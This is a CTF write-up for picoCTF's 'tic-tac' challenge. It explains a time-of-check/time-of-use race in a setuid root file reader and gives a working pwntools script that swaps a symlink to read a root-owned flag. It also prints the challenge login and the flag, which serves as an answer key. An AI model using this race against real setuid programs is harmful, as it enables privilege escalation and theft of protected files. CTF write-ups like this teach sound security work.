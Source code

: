 # tic-tac

## Challenge

The challenge description is as follows:

> Someone created a program to read text files;
> we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
> ssh to saturn.picoctf.net:56639, and run the binary named "txtreader" once connected.
> Login as ctf-player with the password, d137d16e

Connecting to the server, we find the following files in our home directory:

```
ctf-player@pico-chall$ ls -l
total 28
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

Presumably, the src.cpp file given is the source code for the txtreader set-uid binary.
The description and the code indicates that we can use it to read files that we own.

## Solution

There is a potential race condition.
The file may change between when the file owner is checked and when the file contents are read.

If we pass a symlink to the program, the program will follow the symlink and read the target file.
If this symlink changes between the file owner check and reading the file, it will check ownership for the first file but read the contents of the second file.

To exploit this, we have a program continuously change a symlink target between a file we own and the flag file.
Then, while that runs in the background, we continuously run the txtreader program on our symlink.
Eventually, one of these attempts will successfully trigger the race condition and print the flag.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 53230)
username = 'ctf-player'
password = 'd137d16e'

s = ssh(host=host, port=port, user=username, password=password)
io = s.process('/bin/sh', env={'PS1':''})
io.sendline(b"echo '' > blank.txt")
io.sendline(b"while true; do ln -sf flag.txt link; ln -sf blank.txt link; done &")
io.sendline(b"echo sync")
io.recvuntil(b"sync\n")

while True:
    io.sendline(b"./txtreader link")
    line = io.recvline()
    if b"picoCTF" in line:
        print(line)
        break

io.interactive()
```

## Flag

```
picoCTF{ToctoU_!s_3a5y_f482a247}
```
